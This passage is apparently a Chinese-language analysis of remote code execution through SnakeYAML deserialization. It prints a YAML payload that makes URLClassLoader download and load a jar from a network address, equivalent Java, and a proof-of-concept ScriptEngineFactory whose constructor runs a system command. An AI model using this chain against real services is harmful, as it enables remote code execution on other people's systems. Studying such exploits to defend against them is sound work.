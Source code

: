 SnakeYAML 支持 `!!` + 完整类名的方式来指定要反序列化的类，然后以 `[arg1, arg2, ...]` 的方式来传递构造方法参数，例子中的代码执行完后会出反序列化一个 `java.net.URL` 类的实例

再来看一下文章给出的外部 yml 文件 `yaml-payload.yml` 的内容

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1:61234/yaml-payload.jar"]
  ]]
]
```

SnakeYAML 处理上述内容的过程可以等价于以下 java 代码

```java
URL url = new URL("http://127.0.0.1:63712/yaml-payload.jar");
new ScriptEngineManager(new URLClassLoader(new URL[]{url}));
```

代码执行后，会从 `http://127.0.0.1:63712/yaml-payload.jar` 地址下载 jar 包，并在包中寻找一个 `javax.script.ScriptEngineFactory` 接口的实现类，然后实例化，因为这个 jar 包代码是可控的，因此可执行任意代码

大致过程明白了，我们来 debug 一下

作者给出的 `yaml-payload.jar` 代码见 https://github.com/artsploit/yaml-payload，关键代码为 `AwesomeScriptEngineFactory.java` 类，构造函数中使用 Runtime 来执行系统命令

```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
        Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    ...
}
```



我们在 `Runtime.exec()` 方法下断点，调用栈如下


